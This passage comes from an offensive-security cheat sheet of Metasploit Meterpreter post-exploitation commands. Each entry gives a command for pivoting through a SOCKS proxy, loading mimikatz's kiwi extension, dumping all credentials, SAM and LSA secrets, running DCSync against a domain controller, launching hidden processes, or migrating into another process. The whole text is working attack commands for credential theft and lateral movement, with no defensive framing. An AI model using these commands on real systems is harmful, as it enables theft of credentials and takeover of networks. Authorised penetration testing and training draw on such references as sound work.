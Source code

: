 ```
use auxiliary/server/socks_proxy
```

## load kiwi (mimikatz) - 32-bit session
#plateform/linux #target/local #cat/PRIVESC  
```
load kiwi
```

## load kiwi (mimikatz) - 64-bit session
#plateform/linux #target/local #cat/PRIVESC  
```
load kiwi
```

## kiwi - credential dump (mimikatz)
#plateform/linux #target/local #cat/PRIVESC  
```
creds_all
```

## kiwi - logonpasswords (mimikatz)
#plateform/linux #target/local #cat/PRIVESC  
```
lsa_dump_sam
lsa_dump_secrets
```

## kiwi - dcsync (mimikatz)
#plateform/linux #target/local #cat/PRIVESC  
```
dcsync <domain_controller_name>
```

## create process (32-bit)
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## create process (64-bit)
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate to 32-bit process
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```
